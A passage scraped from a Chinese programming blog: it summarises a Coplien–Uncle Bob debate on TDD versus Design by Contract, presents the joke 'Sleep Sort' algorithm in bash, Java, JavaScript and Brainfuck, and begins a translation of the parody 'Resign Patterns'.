Coplien说，问题 是你得知道你要干什么？他说他非常同意Knet的书”XP Explained”里说的——“你不能去猜”，然后他举了一个例子，一个他曾经在一个电信项目中重新架构软件的例子，这是一个长途交换机的项目，项目组特别喜欢用面向对象，有一个人需要去做一个“Recovery Object”（应该是系统恢复对象），Coplien说这是很扯的一件事，因为系统恢复根本就不是一个对象，因为他对业务不熟，所以想这么做。而当你在细节上分析的时候，你会发现这根本就不是一个有成员方法的对象。我个人认为，Coplien想用这个例子来说Bob大叔的先定义对象的抽象接口并不是一个好的需求分析的方法。Coplien还说，这个事情今天被资本化成了SOA，真是在玩火啊。

Bob大叔说，这个他很同意。你的确需要知道这个对象的意义是什么。而且他和Coplien都同意应该根据可运行的代码来决定未来，而不是基于投机心理搞一个巨大无比的架构。

<iframe id="aswift_5" name="aswift_5" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=3572532227&amp;adf=35074182&amp;pi=t.aa~a.425447425~i.37~rp.4&amp;daaos=1684125332196&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684158768&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F4891.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChEI8LCHowYQ1PStmYmQo8OEARI5ANXa3bhYQ8YQBH_jiApIcO4KnVePAgrJxI62UTBFOeOZEUBGKXr9nqkxku2a3TGjoOXTo5WGGyZt&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684158954024&amp;bpp=1&amp;bdt=1829&amp;idt=1&amp;shv=r20230510&amp;mjsv=m202305090101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D636439885c84b7b2-22e35244cfe000aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaJKZKQuAMegGx6VagtAFLZRKMVVw&amp;gpic=UID%3D00000c06349594aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaPFfB0uijUu4CzHZxIMtKnmGEWwA&amp;prev_fmts=0x0%2C1200x280%2C704x280%2C704x280%2C704x280%2C1447x764%2C1005x124&amp;nras=8&amp;correlator=6266085953901&amp;frm=20&amp;pv=1&amp;ga_vid=1696476649.1684158276&amp;ga_sid=1684158276&amp;ga_hid=1921792376&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=4764&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=1836&amp;eid=44773809%2C44759926%2C44759837%2C44759875%2C31071259%2C44782467%2C44788441%2C44790154&amp;oid=2&amp;psts=ABHeCvg7M-dVZDhJxU4kCpZsFIArYiilJlPi8RYZqbDg7rERWofQT40EKdGi97a27Wfz3x17Cil-thrV0PFjqCTkk84Ya0I%2CABHeCvgFYoCykVKu0RdleD9qMjbaSZiWcCGwQjrsEYHyZC6FPnFKGuHPy_jVzIhn9M6i6khnW_X4fPAg9axo_1CRrMe5skxjjwikpEhIvJ-9rIv0SXX7Kw%2CABHeCvhpl3kzyDpS1w6CneN6eyr39NkSTihCtCPsDiMZOkqiUivJOfafOcz8vaTx9zAkonPqXKRbb_UAAv90CoypU7C-umrM%2CABHeCviGY39ScThp3lrvlVz25lmU24S743VCiM8Nh9uB5QuB7CIwYNQCp0uuKoy2_UKRJQc9ckhc0ByMUNuUq8NE2Fl2PGoh%2CABHeCvjIZna94SeUJvQn6H-ug3XR5KPK2QhoS43aQd2_FgWEK7mTE40qEA1iFi5tkgvw4gwK8ZDxh-Fjs2yGj-KIVjTS-K_B&amp;pvsid=1032637006097339&amp;tmod=1738974273&amp;uas=3&amp;nvt=2&amp;ref=https%3A%2F%2Fcoolshell.cn%2Farticles%2F4891.html&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=6&amp;uci=a!6&amp;btvi=5&amp;fsb=1&amp;xpc=Xl8yyth71J&amp;p=https%3A//coolshell.cn&amp;dtd=1257" data-google-container-id="a!6" data-google-query-id="CMfcj4K99_4CFSVDwgUdd0wPsg" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

此时，Bob大叔把话题又带回原地，他问Coplien：“你需要多少的时间才能写出可运行的代码？是不是一个系统需要写200万行代码才能算？”，Coplien说，在他的经历中，200万行代码算是小项目了，他的项目都是几亿行代码的。而在让代码可以跑起来，他至少需要让所有的对象都联系起来。

Bob追问到，“那么你是怎么测试这些对象的连接性的？”，Coplien说，我当然要测试，我会测试系统启动和停止，看看有没有内存问题，半小时就好了。Bob大叔似乎找到了突破点，于是说到：“Excellent！那么我们间的分歧是什么呢？也许你只是不同意TDD的概念和其专业化，当然，这是另外一个话题了”。

然后，Coplien说了一段我非常非常认同的话——“我看到很多人正在做正确的事，来避免我们之前讨论的那些问题，当然那不是TDD的扩展，而是Dan North所说的BDD。可见，软件开发中很多人在开发软件中都是在用正确的很好的方法，而我对此有意见的是，有人把这个事说成TDD，然后人们就去买相关的书来了解TDD，并且看到“architecture only comes from tests”，我在过去6个月中听到过4次这样的说法，这就像你所说的，完全就是horse shit。而关于你所说的专业化的事，如果你没有见过一个专业化你怎么知道？”。（不是吗？大多数人都知道怎么开发软件，而不是TDD才是专业化的软件开发。）

然后，Bob想多谈谈专业化的事，Bob说，在今天，一个不负责任的程序会提交一段他没有跑过单元测试的代码，所以，要确定你没有把一条没有测试过的代码提交到代码库里的最佳做法就是TDD。

Coplien完全不同意这个说法。他觉得底层的东西是更重要的。他用了一个示例来攻击Bob大叔的这个观点，他先是说代码走查和结对编程都有好的有价值的地方，当然和这个话题不相关。然后他又说了Unit Test，想想我们的单元测试，可能我们的测试案例并不可能测试我们程序中参数的各种状态，这些状态有可能只是半打，有可能是一百个，有可能是2的32次方个，所以，我们可以命中一些状态，也会没有测试到一些状态，我们的测试真的只是试验性的，所以，如果你在测试中发现bug，你真的很幸运。

<iframe id="aswift_7" name="aswift_7" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=3572532227&amp;adf=2893099696&amp;pi=t.aa~a.425447425~i.47~rp.4&amp;daaos=1684125332196&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684158768&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F4891.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChEI8LCHowYQ1PStmYmQo8OEARI5ANXa3bhYQ8YQBH_jiApIcO4KnVePAgrJxI62UTBFOeOZEUBGKXr9nqkxku2a3TGjoOXTo5WGGyZt&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684158954033&amp;bpp=1&amp;bdt=1838&amp;idt=1&amp;shv=r20230510&amp;mjsv=m202305090101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D636439885c84b7b2-22e35244cfe000aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaJKZKQuAMegGx6VagtAFLZRKMVVw&amp;gpic=UID%3D00000c06349594aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaPFfB0uijUu4CzHZxIMtKnmGEWwA&amp;prev_fmts=0x0%2C1200x280%2C704x280%2C704x280%2C704x280%2C1447x764%2C1005x124%2C704x280&amp;nras=9&amp;correlator=6266085953901&amp;frm=20&amp;pv=1&amp;ga_vid=1696476649.1684158276&amp;ga_sid=1684158276&amp;ga_hid=1921792376&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=5886&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=2972&amp;eid=44773809%2C44759926%2C44759837%2C44759875%2C31071259%2C44782467%2C44788441%2C44790154&amp;oid=2&amp;psts=ABHeCvg7M-dVZDhJxU4kCpZsFIArYiilJlPi8RYZqbDg7rERWofQT40EKdGi97a27Wfz3x17Cil-thrV0PFjqCTkk84Ya0I%2CABHeCvgFYoCykVKu0RdleD9qMjbaSZiWcCGwQjrsEYHyZC6FPnFKGuHPy_jVzIhn9M6i6khnW_X4fPAg9axo_1CRrMe5skxjjwikpEhIvJ-9rIv0SXX7Kw%2CABHeCvhpl3kzyDpS1w6CneN6eyr39NkSTihCtCPsDiMZOkqiUivJOfafOcz8vaTx9zAkonPqXKRbb_UAAv90CoypU7C-umrM%2CABHeCviGY39ScThp3lrvlVz25lmU24S743VCiM8Nh9uB5QuB7CIwYNQCp0uuKoy2_UKRJQc9ckhc0ByMUNuUq8NE2Fl2PGoh%2CABHeCvjIZna94SeUJvQn6H-ug3XR5KPK2QhoS43aQd2_FgWEK7mTE40qEA1iFi5tkgvw4gwK8ZDxh-Fjs2yGj-KIVjTS-K_B%2CABHeCvhKiOoZzVPACMD2d5Q3tYlMNXYp1FmzrrdLT-7-2QoEqKiOKvz7E6baDQgel2Bc9Kt7IHattFux-0w9deCgzNmEFfeK&amp;pvsid=1032637006097339&amp;tmod=1738974273&amp;uas=3&amp;nvt=2&amp;ref=https%3A%2F%2Fcoolshell.cn%2Farticles%2F4891.html&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=8&amp;uci=a!8&amp;btvi=6&amp;fsb=1&amp;xpc=fjid4yheja&amp;p=https%3A//coolshell.cn&amp;dtd=1680" data-google-container-id="a!8" data-google-query-id="CMStq4K99_4CFVVBwgUdTLkLPQ" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

随后，Coplien推崇了一个叫“[Design By Contrac](https://en.wikipedia.org/wiki/Design_by_contract)t” – 契约式设计的方法（我在[软件设计中那些方法](https://coolshell.cn/articles/4535.html)中提到过，），这个方法认为软件有前验条件，后验条件，还有不变的。这个方法是Eiffel项目使用的一个方法，使用这个方法你可以静态的去做一些检查，相当于你做了一个基础架构来干这些事。Coplien相信这个方法有TDD所有的优点——我需要努力思考我的代码，我需要思考软件的外部接口，而且，Coplien发现这么做会比做测试更有效。这会让你对那些参数的范围考虑地更为宽广，而不是只在测试案例写几个随机分散的值来测试。

今天，Bertrand Meyer(Eiffel语言的创造者，他也不赞同TDD)把这个方法推进了一步，叫CDD – Contract Driven Development，这个是一种关注于对象间关系，其在程序运行前提条件和运行后的后验条中达成一种契约，可以通过对契约条件的动态或静态的检查，来对程序的功能进行验证。这样可以让你更有效地测试程序。这种方法需要对业务的重点部位非常好的了解。这是TDD很难做到的（这就是我在《[TDD并不是看上去的那么美](https://coolshell.cn/articles/3649.html)》一文中说的TDD的测试范围是个很大的问题）。

<iframe id="aswift_3" name="aswift_3" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=3572532227&amp;adf=2189257412&amp;pi=t.aa~a.425447425~i.51~rp.4&amp;daaos=1684125332196&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684158768&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F4891.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChEI8LCHowYQ1PStmYmQo8OEARI5ANXa3bhYQ8YQBH_jiApIcO4KnVePAgrJxI62UTBFOeOZEUBGKXr9nqkxku2a3TGjoOXTo5WGGyZt&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684158954014&amp;bpp=1&amp;bdt=1818&amp;idt=1&amp;shv=r20230510&amp;mjsv=m202305090101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D636439885c84b7b2-22e35244cfe000aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaJKZKQuAMegGx6VagtAFLZRKMVVw&amp;gpic=UID%3D00000c06349594aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaPFfB0uijUu4CzHZxIMtKnmGEWwA&amp;prev_fmts=0x0%2C1200x280%2C704x280%2C704x280%2C704x280%2C1447x764%2C1005x124%2C704x280%2C704x280&amp;nras=10&amp;correlator=6266085953901&amp;frm=20&amp;pv=1&amp;ga_vid=1696476649.1684158276&amp;ga_sid=1684158276&amp;ga_hid=1921792376&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=6618&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=3714&amp;eid=44773809%2C44759926%2C44759837%2C44759875%2C31071259%2C44782467%2C44788441%2C44790154&amp;oid=2&amp;psts=ABHeCvg7M-dVZDhJxU4kCpZsFIArYiilJlPi8RYZqbDg7rERWofQT40EKdGi97a27Wfz3x17Cil-thrV0PFjqCTkk84Ya0I%2CABHeCvgFYoCykVKu0RdleD9qMjbaSZiWcCGwQjrsEYHyZC6FPnFKGuHPy_jVzIhn9M6i6khnW_X4fPAg9axo_1CRrMe5skxjjwikpEhIvJ-9rIv0SXX7Kw%2CABHeCvhpl3kzyDpS1w6CneN6eyr39NkSTihCtCPsDiMZOkqiUivJOfafOcz8vaTx9zAkonPqXKRbb_UAAv90CoypU7C-umrM%2CABHeCviGY39ScThp3lrvlVz25lmU24S743VCiM8Nh9uB5QuB7CIwYNQCp0uuKoy2_UKRJQc9ckhc0ByMUNuUq8NE2Fl2PGoh%2CABHeCvjIZna94SeUJvQn6H-ug3XR5KPK2QhoS43aQd2_FgWEK7mTE40qEA1iFi5tkgvw4gwK8ZDxh-Fjs2yGj-KIVjTS-K_B%2CABHeCvhKiOoZzVPACMD2d5Q3tYlMNXYp1FmzrrdLT-7-2QoEqKiOKvz7E6baDQgel2Bc9Kt7IHattFux-0w9deCgzNmEFfeK&amp;pvsid=1032637006097339&amp;tmod=1738974273&amp;uas=3&amp;nvt=2&amp;ref=https%3A%2F%2Fcoolshell.cn%2Farticles%2F4891.html&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=4&amp;uci=a!4&amp;btvi=7&amp;fsb=1&amp;xpc=ui5iwCVm3J&amp;p=https%3A//coolshell.cn&amp;dtd=1750" data-google-container-id="a!4" data-google-query-id="CNvArYK99_4CFQhBvAodJigD6Q" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

Bob大叔似乎在努力回忆CDD和Eiffel，然后他说，TDD不就是干这个的吗？TDD就是把契约变成单元测试，不但测试输入，也测试返回值，这不就是先验条件和后验条件，而且他说，Unit Test和代码结合得更紧，而契约没有和代码结合得紧密，这是他觉得很不舒服的地方。

Coplien说Bob大叔创建了不应该创建的二元论。他说代码在哪里，UT就跟到哪里，代码有多臃肿，UT就有多臃肿，而UT也是代码，也会有BUG，所以，其实这真是事半功倍。还有一个最有名的示例是ADA编译器，其使用了TDD，反而增加了代码中的BUG，因为你的代码多，测试就多，代码就更多，整个代码就太过臃肿。如果你测试中使用了断言，这意味着你就耦合上了代码，你的测试案例和你的代码耦合地越多，你的代码就越难维护。这就是我在《[TDD并不是看上去的那么美](https://coolshell.cn/articles/3649.html)》一文中说的TDD的代码臃肿和维护问题）

<iframe id="aswift_8" name="aswift_8" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=3572532227&amp;adf=430053008&amp;pi=t.aa~a.425447425~i.55~rp.4&amp;daaos=1684125332196&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684158768&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F4891.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChEI8LCHowYQ1PStmYmQo8OEARI5ANXa3bhYQ8YQBH_jiApIcO4KnVePAgrJxI62UTBFOeOZEUBGKXr9nqkxku2a3TGjoOXTo5WGGyZt&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684158954037&amp;bpp=1&amp;bdt=1841&amp;idt=1&amp;shv=r20230510&amp;mjsv=m202305090101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D636439885c84b7b2-22e35244cfe000aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaJKZKQuAMegGx6VagtAFLZRKMVVw&amp;gpic=UID%3D00000c06349594aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaPFfB0uijUu4CzHZxIMtKnmGEWwA&amp;prev_fmts=0x0%2C1200x280%2C704x280%2C704x280%2C704x280%2C1447x764%2C1005x124%2C704x280%2C704x280%2C704x280&amp;nras=11&amp;correlator=6266085953901&amp;frm=20&amp;pv=1&amp;ga_vid=1696476649.1684158276&amp;ga_sid=1684158276&amp;ga_hid=1921792376&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=7258&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=4223&amp;eid=44773809%2C44759926%2C44759837%2C44759875%2C31071259%2C44782467%2C44788441%2C44790154&amp;oid=2&amp;psts=ABHeCvg7M-dVZDhJxU4kCpZsFIArYiilJlPi8RYZqbDg7rERWofQT40EKdGi97a27Wfz3x17Cil-thrV0PFjqCTkk84Ya0I%2CABHeCvgFYoCykVKu0RdleD9qMjbaSZiWcCGwQjrsEYHyZC6FPnFKGuHPy_jVzIhn9M6i6khnW_X4fPAg9axo_1CRrMe5skxjjwikpEhIvJ-9rIv0SXX7Kw%2CABHeCvhpl3kzyDpS1w6CneN6eyr39NkSTihCtCPsDiMZOkqiUivJOfafOcz8vaTx9zAkonPqXKRbb_UAAv90CoypU7C-umrM%2CABHeCviGY39ScThp3lrvlVz25lmU24S743VCiM8Nh9uB5QuB7CIwYNQCp0uuKoy2_UKRJQc9ckhc0ByMUNuUq8NE2Fl2PGoh%2CABHeCvjIZna94SeUJvQn6H-ug3XR5KPK2QhoS43aQd2_FgWEK7mTE40qEA1iFi5tkgvw4gwK8ZDxh-Fjs2yGj-KIVjTS-K_B%2CABHeCvhKiOoZzVPACMD2d5Q3tYlMNXYp1FmzrrdLT-7-2QoEqKiOKvz7E6baDQgel2Bc9Kt7IHattFux-0w9deCgzNmEFfeK%2CABHeCvjVuCerm-jqWPT0BhnSks9-DhlVkITxMXNaJo9YgeX3pWhfcG-8Da0VaSV0lkf3H2fInXGZxzA8wQOeogx5z8RWUTR5%2CABHeCvgX8fBbfXWbl4WQMUoFT_CuNLqnOILH0W-RKH1PneF3lHQEc0V5scH97JEhuEYHoJZtUKuqJI5AfZmFaUid-fOOsLiy&amp;pvsid=1032637006097339&amp;tmod=1738974273&amp;uas=3&amp;nvt=2&amp;ref=https%3A%2F%2Fcoolshell.cn%2Farticles%2F4891.html&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=9&amp;uci=a!9&amp;btvi=8&amp;fsb=1&amp;xpc=3CsVI6I4J3&amp;p=https%3A//coolshell.cn&amp;dtd=2107" data-google-container-id="a!9" data-google-query-id="CLu3xIK99_4CFZcDXAodjUkCOA" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

Bob大叔为Coplien对代码臃肿的说法感到惊讶。Coplien说，这就是他的经历，他看到的。Bob大叔承认有很多混乱的测试和混乱的代码，他觉得像XUnit这样的工具被滥用了。Coplien打断道，这不是要和你争论的，我争论的是这就是我看到大家在实践的东西。

Bob大叔反回到，你有没有看到CDD也被滥用的情况？Coplien说，他只觉得目前，软件业对CDD用的还不够。

最后，时间不够了，Bob大叔问了一个不相干的问题，他说，我们这里有BDD,CDD, TDD, 关于DD，他不知道谁是最先第一个使用带DD这个词的，他说他好像记得一个RDD – Responsibility Driven Development。

Coplien对这个问题可能很无语，他只能说——“DD，这是Unix的一个命令嘛，Disk Dump，但这可能算。谢谢你Bob，很高兴又一次见到你 ”

——————————————————正文分割线————————————————————

看完后，我的感觉如下：

- 这是2008年就在讨论的事，而在2011年我发布了《[TDD并不是看上去的那么美](https://coolshell.cn/articles/3649.html)》后中国这边才开始讨论。（InfoQ和 Thoughtworks怎么不去找Coplien？）
- 英语很重要，不懂英语，只看国内的东西，你就容易被洗脑，你就需要更多的时间和精力去思考那些早被人思考过的问题。
- 开发和测试，都是需要充分地了解业务，充分的思考，充分权衡后才能做得好的事。并不是你用了哪个方法后就专业了，就NB了。
- 相当BS——上不谈业务，下不谈技术，只谈方法论的人和公司，这是绝对的扭曲。

（全文完）	

# 排序算法 SLEEP SORT

#####  [2011年06月23日 ](https://coolshell.cn/articles/4883.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [63 条评论](https://coolshell.cn/articles/4883.html#comments) 39,938 人阅读

排序算法好像是程序员学习编程最多的算法，也可能是算法研究者们最喜欢研究的算法了。排序有很多很多的算法，比如，冒泡，插入，选择，堆，快速，归并等等（你可以看看本站以前的那些文章：[可视化的排序](https://coolshell.cn/articles/3933.html)，[排序算法比较](https://coolshell.cn/articles/399.html)，[显示排序过程的python](https://coolshell.cn/articles/536.html)）这里向大家介绍一个“巨NB”的排序算法——Sleep Sort。

闲言少说，请看下面的代码（用Shell脚本写的）

```
#!/bin/bash
function f() {
    sleep "$1"
    echo "$1"
}
while [ -n "$1" ]
do
    f "$1" &
    shift
done
wait
```

用法如下：

./sleepsort.bash 5 3 6 3 6 3 1 4 7

相信你可以会去试一下这个脚本，也相你你试完后你一定会说——“**我擦，真TMD排序了！**”，我还是不要解释这段代码了，过多的解释会不如代码那么直接，而且解释会影响你对这个排序算法的NB性。只想说——**这是正二八经的多线程、多进程排序啊**。我们的[Bogo排序](https://coolshell.cn/articles/3933.html)也黯然失色啊。

下面我们需要对这个算法做一些分析——

1）让我们来分析一个这这个程序的算法复杂度，太简单了，不就是O(最大数的秒数)，呵呵。所以，如果出现这样的数列将是恶梦的——2 1 4 3 2 1 99999999

2）这个排序好是好，但对于负数或浮点数就有bug了。负数的解决方案是，我们可以这样来：x/2+MaxInt/2（时间可能相当长，不过依然工作）。对于浮点数，看看下面的代码.

```
#!/bin/bash
function f() {
  sleep $(echo "($2 - 1) + $1 / 10 ^ $2" | bc -l)
  echo "$1"
}
while [ -n "$1" ]
do
  f "$1" $(echo -n "$1" | wc -c) &
  shift
done
wait
```

3）我们来看看各种语言版本的实现吧。
**Java**

```
public class SleepSort {
    public static void main(String[] args) {
        int[] ints = {1,4,7,3,8,9,2,6,5};
        SortThread[] sortThreads = new SortThread[ints.length];
        for (int i = 0; i < sortThreads.length; i++) {
            sortThreads[i] = new SortThread(ints[i]);
        }
        for (int i = 0; i < sortThreads.length; i++) {
            sortThreads[i].start();
        }
    }
}
class SortThread extends Thread{
    int ms = 0;
    public SortThread(int ms){
        this.ms = ms;
    }
    public void run(){
        try {
            sleep(ms*10+10);
        } catch (InterruptedException e) {
            // TODO Auto-generated catch block
            e.printStackTrace();
        }
        System.out.println(ms);
    }
}
```

**Javascript**

[javascript]function sleepsort() {
for (var i = 0, il = arguments.length; i < il; i++) {
(function(args, index) {
setTimeout(function() {
document.body.innerHTML += args[index] + ‘, ‘;
}, args[index]);
}(arguments, i));
}
};
[/javascript]

**Brainfuck** (关于这门语言，请[参看这篇文章](https://coolshell.cn/articles/4458.html))

```
,>,>++++++++[<------<------>>-]<<[>[>+>+<<-]>>[<<+,>,>++++++++[<------<------>>-]<<[ ----------[++++++++++>----------]++++++++++>[>+>+<<-]>>[<<+>>-]<<<-] >>>++++++[<++++++++>-]<.>.>>-]<<<-],----------[----------------------.,----------],---<<<+>>>-------[----------------------.,----------]>> ----------[++++++++++>----------]++++++++++>++++++[<++++++++>-]< ----------[++++++++++>----------]++++++++++.>. ----------[++++++++++>----------]++++++++++>++>+<<-]>>[<<+>>-]<<<-] >>[>[>+>+<<-]>>[<<----------[++++++++++>----------]++++++++++>++,>,>++++++++[<------<------>>-]<<
```

（全文完）

# “另类” 设计模式

#####  [2011年06月16日 ](https://coolshell.cn/articles/4844.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [12 条评论](https://coolshell.cn/articles/4844.html#comments) 20,376 人阅读

下面这篇文章来自这里：http://www.lsd.ic.unicamp.br/~oliva/fun/prog/resign-patterns，这篇文章有点意思了，山寨了我们著名的Design Pattern。这篇文章并不是很容易翻译，也许我翻译的不好，大家多指正。另外，这篇文章将失去原有的趣味在于其使用了经典设计模式的单词很相似的单词，一走眼你还以为是正二八经的设计模式。呵呵。所以，我在下文中，我会保留原有的英文单词，并把真正的23个经典设计模式的英文名放在旁边（灰色）。这篇文章和之前的[如何写出无法维护的代码](https://coolshell.cn/articles/4758.html)有异曲同工，个人感觉都是比较欢乐的。

 

**辞职模式
****Resign Patterns
****Design Patterns**

不合式的非面向项目软件开发病症
Ailments of Unsuitable Project-Disoriented Software
Elements of Reusable Object-Oriented Software

**作者**：[Michael Duell](mailto:mitework@yercompany.com)

目录


